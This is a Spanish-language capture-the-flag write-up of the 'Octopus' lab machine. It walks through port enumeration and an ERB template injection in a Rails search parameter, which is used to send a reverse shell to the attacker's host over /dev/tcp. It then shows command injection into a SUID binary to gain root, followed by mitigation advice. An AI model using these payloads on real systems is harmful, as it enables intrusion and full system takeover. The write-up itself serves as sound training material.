<h1 align="center">[Writeup] Octopus - Reporte de Vulnerabilidad</h1>

**Dificultad:** Insano (★★★★★)

**Categoría:** Web / Descubrimiento de Credenciales / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 22-09-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
Laboratorio pedagógico de Web Exploit (Nivel Insane). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: WebExploitLabs/octopus, requiriendo obtener acceso inicial y comprometer el sistema.

---
# 1. Fase de Reconocimiento y Enumeración

## Escaneo Inicial de Puertos

Se realizó un descubrimiento de servicios en el host objetivo `172.17.0.2` utilizando la herramienta `nmap`:

```bash
nmap -sV -sC -p- --min-rate 1000 172.17.0.2 -oN scan_octopus.txt
```

**Resultados del escaneo:**

*Puertos abiertos encontrados: 21, 22, 80, 470, 3000, 3500, 8080*

## 1.2 Inspección del FTP

Al analizar el servidor FTP en el puerto 21, encontramos una entrada como "anonymous", pero que al final no nos llevo a mucho, ya que el archivo no tenia ni siquiera permisos de lectura para nuestro usuario anónimo:


## 1.3 Fuzzing de Directorios (Gobuster)

Para explorar la superficie del servidor web, se ejecutó un escaneo de directorios con `gobuster` buscando extensiones comunes (`.php`, `.txt`, `.html`, `.bak`...) en los diferentes puertos disponibles:

---
### PUERTO 80 (Hallazgos - Stand By..)

Comando Utilizado (Puerto 80):
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak,old,js,json
```


---
### PUERTO 3000 (Sin Hallazgos):

Comando Utilizado :
```bash
gobuster dir -u http://172.17.0.2:3000/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak,old,js,json --exclude-length 1651
```


Al revisar el código (puerto 3000) y la estructura de la aplicación, observamos que el servidor utilizaba Node.js junto con el framework Express. Aunque inicialmente solo se mostraba la página de inicio de sesión, el código de la aplicación hacía referencia a distintas funcionalidades, como el registro de usuarios, subida de archivos y autenticación.

Para analizar cómo se comunicaba el navegador con el servidor, utilizamos Burp Suite para interceptar las peticiones HTTP.

Al intentar registrar un usuario, Burp interceptó inicialmente una petición `OPTIONS`. Esta petición corresponde a una comprobación previa realizada por el navegador antes de enviar la petición principal, por lo que la reenviamos mediante `Forward`.

Después de esta comprobación, Burp permitió interceptar la petición `POST` que contenía realmente los datos enviados al servidor:

```json
{
    "username": "usuario1",
    "email": "usuario1@gmail.com",
    "password": "usuario"
}
```

Al observar que los datos se enviaban directamente mediante JSON, decidimos comprobar si el servidor aceptaba parámetros adicionales que no fueran enviados normalmente desde la interfaz. En particular, añadimos el parámetro `role` con el valor `admin`:

```json
{
    "username": "usuario1",
    "email": "usuario1@gmail.com",
    "password": "usuario",
    "role": "admin"
}
```

El objetivo de esta prueba era comprobar si el servidor validaba correctamente los permisos asignados al usuario o si, por el contrario, confiaba en los valores proporcionados directamente por el cliente.



La referencia que nos hace es *"Usuario registrado con éxito"*, pero al momento de accesar con el mismo usuario seguía dando *"Rol: USER"*:


Intentamos tanto para el Registro como para el Acceso (login), sin exito.
Tras comprobar que era posible enviar parámetros adicionales durante el registro, analizamos también la cookie utilizada por la aplicación para gestionar la sesión.

La cookie contenía un JSON Web Token (JWT) firmado mediante `HS256`. Al decodificar su contenido, observamos que el token incluía información relacionada con el usuario y su rol:

```json
{
    "id": 5,
    "role": "admin",
    "iat": 1790090659,
    "exp": 1790094259
}
```

Esto resultó interesante, ya que el rol del usuario se encontraba directamente dentro del token. Por este motivo, intentamos modificar el valor del campo `role` para comprobar si era posible alterar los privilegios de nuestra sesión.

Sin embargo, modificar únicamente el contenido del JWT no fue suficiente. El servidor rechazaba el token modificado, ya que la firma del JWT dejaba de coincidir con su contenido.

En otras palabras, aunque era posible visualizar y modificar el contenido del token, no disponíamos de la clave utilizada por el servidor para generar una firma válida. Por ello, esta vía tampoco permitió modificar los privilegios de la cuenta.

---
### PUERTO 470 (Sin Hallazgos Claves):


Al analizar el puerto 470, encontramos una referencia al sistema de autenticación federada de AWS. La respuesta contenía una URL de `signin.aws.amazon.com/federation` junto con un `SigninToken`, utilizada para iniciar una sesión federada en la consola de AWS.

El token parecía estar relacionado con un mecanismo de acceso temporal, pero no encontramos información adicional que permitiera continuar la explotación desde este servicio, por lo que continuamos con la enumeración de los demás puertos.

### PUERTO 3500:


Durante la enumeración del puerto 3500 encontramos una imagen JPEG que decidimos analizar en busca de información adicional.

Inicialmente comprobamos sus metadatos con `exiftool`, sin encontrar información evidente que permitiera continuar. También utilizamos `binwalk`, que únicamente identificó la imagen como un archivo JPEG válido.

Finalmente, utilizamos `steghide` para comprobar si el archivo podía contener información embebida. La herramienta indicó una capacidad de aproximadamente 4,9 KB para datos adjuntos y solicitó una contraseña para intentar extraerlos. Sin embargo, al no disponer del salvoconducto, no fue posible comprobar el contenido.

Por el momento, dejamos este hallazgo pendiente y continuamos con la enumeración.

### Puerto 8080:

Al acceder al servicio del puerto 8080, observamos que el servidor respondía descargando un archivo en lugar de mostrar una página web. Al analizarlo con `file`, comprobamos que se trataba de un archivo `Apple Desktop Services Store`, correspondiente a un archivo `.DS_Store` utilizado por macOS para almacenar información sobre el contenido de un directorio.

Para analizar su contenido utilizamos la herramienta `ds_store`. Aunque `strings` no mostró información relevante, `ds_store` permitió identificar una referencia al siguiente archivo:

```text
Forensics Investigation Process- Part1.mp4
```

Esta referencia resultó interesante, ya que podía indicar la existencia de dicho archivo en el directorio del servidor. Por ello, intentamos acceder directamente al recurso, pero el servidor no proporcionó el vídeo y nuevamente obtuvimos un archivo `.DS_Store`.

Por lo tanto, aunque el `.DS_Store` permitió identificar la existencia de este archivo, no fue posible obtener su contenido y dejamos esta pista pendiente para continuar con la enumeración.

# De Vuelta al Puerto 80:

Una vez finalizada la enumeración de los servicios, volvimos al puerto 80, donde habíamos identificado la aplicación web **Ferremax**. Durante la interacción con la aplicación observamos que el buscador utilizaba el endpoint `/search` junto con el parámetro `q`, por ejemplo:

```text
http://172.17.0.2/search?q=sierra
```



Esto nos indicó que la aplicación recibía y procesaba parámetros proporcionados directamente por el usuario.

Además, al analizar las cookies de la aplicación encontramos `_ferremax_session`. El nombre de esta cookie nos proporcionó una pista sobre la tecnología utilizada por la aplicación, orientándonos hacia **Ruby on Rails** y, en particular, hacia el uso de plantillas ERB.

**En lugar de centrarnos únicamente en el parámetro `q`, decidimos comprobar si el endpoint aceptaba otros parámetros. Para ello utilizamos un diccionario de nombres de parámetros y realizamos una búsqueda sobre `/search`. Entre los resultados encontramos el parámetro `notificacion`, que era procesado correctamente por la aplicación. Cabe recalcar que este fue uno de los muchos diccionarios que probamos durante la exploración, ya que el parametro "q" por si solo no daba resultados.**

```bash
ffuf -u "http://172.17.0.2/search?FUZZ=test"  -w /usr/share/seclists/Miscellaneous/Words/real_academia_espanola_RAE_spanish_105582_words.txt  -fs 2224 
```


A partir de este descubrimiento comenzamos a probar cómo se comportaba la aplicación al introducir contenido especialmente diseñado en dicho parámetro. Observamos que el valor proporcionado era interpretado como una plantilla ERB en el servidor.

Esto era especialmente relevante porque ERB permite ejecutar expresiones Ruby dentro de una plantilla. Por ejemplo, la función `system()` permite ejecutar comandos del sistema operativo desde Ruby.

Por ello, primero comprobamos si podíamos ejecutar comandos mediante una expresión de este tipo:

```ruby
<%= system("comando") %>
```
Ejecutamos:
```bash
curl -G "http://172.17.0.2/search" --data-urlencode 'notificacion=<%= `id` %>'
```
Y obtenemos:

Una vez comprobado el comportamiento, sustituimos el comando por una conexión inversa hacia nuestra máquina. El payload utilizado finalmente fue:

```bash
curl -G "http://172.17.0.2/search" --data-urlencode 'notificacion=<%= system("bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\"") %>'
```


El parámetro `notificacion` provocaba que el servidor interpretara el contenido como código Ruby, mientras que `system()` permitía ejecutar el comando de Bash. Este comando establecía una conexión inversa hacia nuestra máquina en el puerto `4444`, donde previamente habíamos preparado un listener.

De esta forma conseguimos ejecutar comandos remotamente en el servidor y obtener nuestra primera shell. Ejecutamos los comandos para estabilizar la shell:

```
Ejecutamos:
/usr/bin/script -qc /bin/bash /dev/null

Presionamos CTRL+Zejecutamos:
stty raw -echo; fg
y doble ENTER para volver a la shell

Exportamos la shell y sus propiedades con:
export TERM=xterm-256color; export SHELL=bash; stty rows 44 cols 180
```

## 2  Escalada de Privilegios:

Una vez obtenida la shell como `ferremax`, continuamos con la enumeración del sistema en busca de posibles métodos para escalar privilegios.

Para ello, buscamos archivos con el bit **SUID** activado:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Entre los resultados encontramos un archivo que llamó especialmente nuestra atención:

```bash
/usr/local/bin/sysaudit
```

A diferencia de otros binarios SUID habituales del sistema, `sysaudit` era un ejecutable ubicado en `/usr/local/bin`, por lo que decidimos analizarlo.

Intentamos identificar el tipo de archivo con `file`, pero esta herramienta no se encontraba instalada en el sistema. Como alternativa, utilizamos `strings` para obtener las cadenas de texto almacenadas dentro del binario.

Entre la información obtenida encontramos:

```bash
Usage: %s <path>
Path too long
cd /app/ferremax && RAILS_ENV=production bundle exec rails runner "File.open('%s','r'){|f| puts f.read}" 2>/dev/null
```

Esto nos permitió entender que `sysaudit` recibía una ruta como argumento y posteriormente ejecutaba un comando de Rails para leer el contenido del archivo indicado.

Además, el binario hacía uso de funciones como `setuid`, `setgid` y `system`. Esta última resultó especialmente interesante, ya que indicaba que el programa ejecutaba comandos del sistema.

Al tratarse de un binario SUID, cualquier comando ejecutado por él podía realizarse con los privilegios asociados al propietario del archivo. Por ello, decidimos comprobar si era posible modificar el comportamiento del comando mediante una inyección.

Primero realizamos una prueba sencilla utilizando `$()` para intentar crear un archivo en `/tmp`:

```bash
/usr/local/bin/sysaudit '$(touch /tmp/sysaudit_root_test)'
```

Después comprobamos el resultado:

```bash
ls -la /tmp
```

y observamos que el archivo había sido creado:

```bash
-rw-rw-r-- 1 root root 0 Sep 22 19:05 sysaudit_root_test
```

Esto confirmó que nuestro comando estaba siendo ejecutado y, lo más importante, que se estaba ejecutando con privilegios de `root`.

Con la inyección confirmada, aprovechamos esta ejecución privilegiada para crear una copia de `/bin/bash` y asignarle el bit SUID:

```bash
/usr/local/bin/sysaudit '$(cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash)'
```

A continuación ejecutamos la copia de Bash utilizando la opción `-p`, que permite conservar los privilegios efectivos del proceso:

```bash
/tmp/rootbash -p
```

Al comprobar nuestra identidad observamos:

```bash
uid=1000(ferremax) gid=1000(ferremax) euid=0(root) groups=1000(ferremax)
```

El `euid=0(root)` confirmó que el proceso estaba ejecutándose con privilegios efectivos de `root`.

Finalmente, utilizamos `setpriv` para establecer directamente los identificadores de usuario y grupo como `root`:

```bash
setpriv --reuid=0 --regid=0 --clear-groups bash
```

Comprobamos nuevamente los privilegios:

```bash
root@octopus:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Con esto conseguimos escalar desde el usuario `ferremax` hasta `root`, completando la explotación de la máquina.



# 3. Obtención de Flag:

Nos dirijimos a la carpeta **root** para encontrar la bandera:

## Flag:
```
Octopus{t3mpl4t3s_4r3_d4ng3r0us}
```

Y finalizamos el lab:


---

# 4. Mitigaciones

A partir de los vectores de ataque identificados durante la explotación, se pueden aplicar varias medidas para reducir la superficie de ataque y evitar que una vulnerabilidad aislada termine permitiendo el compromiso completo del sistema.

## Servicios expuestos innecesariamente

Durante la enumeración encontramos varios servicios accesibles desde la red, algunos de los cuales proporcionaban información que no era necesaria para el funcionamiento principal de la aplicación.

Como primera medida, se debería revisar qué servicios están realmente destinados a ser accesibles y limitar la exposición de aquellos que no sean necesarios. Esto puede realizarse mediante reglas de firewall y una correcta configuración de los servicios.

También es recomendable evitar que servicios internos, interfaces de administración o archivos destinados únicamente a tareas internas queden expuestos directamente.

## FTP

El servicio FTP debería configurarse siguiendo el principio de mínimo privilegio. Si no es estrictamente necesario, lo recomendable es deshabilitarlo y utilizar alternativas seguras como SFTP.

En caso de necesitar FTP, se deben restringir los permisos de los usuarios, evitar el acceso anónimo cuando no sea necesario y limitar los directorios a los que cada cuenta puede acceder.

## Aplicación web

La principal vulnerabilidad encontrada en la aplicación web fue la posibilidad de ejecutar código mediante el parámetro `notificacion`.

El problema se produjo porque una entrada controlada por el usuario terminó siendo interpretada como una plantilla ERB y posteriormente permitió ejecutar comandos mediante `system()`.

La aplicación nunca debería interpretar directamente datos proporcionados por el usuario como código o plantillas ejecutables. Para evitar este tipo de vulnerabilidades se recomienda:

- No utilizar entradas del usuario directamente dentro de plantillas ejecutables.
    
- Separar estrictamente los datos de la lógica de la aplicación.
    
- Validar y sanear las entradas recibidas.
    
- Evitar funciones como `system()` cuando no sean estrictamente necesarias.
    
- Si es necesario ejecutar comandos externos, utilizar APIs que no impliquen construir comandos mediante concatenación de strings.
    
- Mantener Ruby, Rails y sus dependencias actualizados.
    

Además, los parámetros aceptados por cada endpoint deberían estar explícitamente definidos. De esta forma se reduce la posibilidad de que un atacante pueda descubrir y utilizar parámetros internos o no documentados.

## Gestión de sesiones y privilegios

Durante el análisis también observamos que la aplicación utilizaba un JWT que contenía información relacionada con el rol del usuario.

Los datos contenidos dentro de un JWT no deben considerarse confiables simplemente porque estén dentro del token. El servidor debe verificar siempre su firma antes de aceptar cualquier información relacionada con privilegios.

Asimismo, los roles y permisos deberían determinarse y validarse del lado del servidor. Nunca se debería confiar únicamente en un valor proporcionado por el cliente para decidir si un usuario tiene permisos de administrador.

Las claves utilizadas para firmar los tokens también deben mantenerse fuera del código fuente y almacenarse de forma segura.

## Archivos y recursos expuestos

Durante la enumeración encontramos recursos que permitían obtener información sobre archivos presentes en el servidor, incluyendo el archivo `.DS_Store` expuesto por el servicio del puerto 8080.

Los archivos utilizados por sistemas operativos o herramientas de desarrollo, como `.DS_Store`, no deberían almacenarse dentro de directorios publicados por el servidor web.

También es recomendable revisar periódicamente el contenido de los directorios expuestos y eliminar archivos innecesarios, archivos temporales, copias de seguridad y metadatos que puedan proporcionar información sobre la estructura interna del sistema.

## Binarios SUID

La escalada de privilegios fue posible gracias al binario personalizado `/usr/local/bin/sysaudit`, que tenía el bit SUID activado.

Los binarios SUID deben utilizarse únicamente cuando sean estrictamente necesarios, ya que cualquier vulnerabilidad en ellos puede permitir que un usuario sin privilegios ejecute acciones con los permisos del propietario del archivo.

En este caso, el problema se agravó porque el binario utilizaba `system()` para ejecutar un comando construido a partir de una entrada controlada por el usuario.

La mitigación principal sería eliminar el bit SUID si no es necesario. Si el programa necesita ejecutarse con privilegios elevados, debería:

- Ejecutarse con los mínimos privilegios necesarios.
    
- Validar estrictamente los argumentos recibidos.
    
- Evitar `system()` y otras funciones que interpreten la entrada como comandos.
    
- Utilizar APIs específicas para realizar la operación requerida.
    
- Evitar construir comandos mediante concatenación de strings.
    
- Revisar cuidadosamente cualquier binario personalizado que se ejecute con privilegios elevados.
    

## Principio de mínimo privilegio

Finalmente, una de las medidas más importantes es aplicar el principio de **mínimo privilegio** en todos los componentes.

La aplicación web, los usuarios del sistema y los servicios deberían disponer únicamente de los permisos necesarios para realizar sus funciones. De esta manera, incluso si un atacante consigue explotar una vulnerabilidad inicial, el impacto de la intrusión queda limitado.

En este laboratorio, la combinación de una vulnerabilidad de ejecución remota de comandos en la aplicación web y posteriormente un binario SUID vulnerable permitió pasar de una aplicación expuesta a una cuenta de usuario y finalmente a `root`.

Por ello, la seguridad no debería depender de una única medida, sino de varias capas de protección: reducir la superficie de ataque, validar correctamente las entradas, limitar los privilegios y revisar periódicamente los servicios y binarios que se ejecutan con permisos elevados.
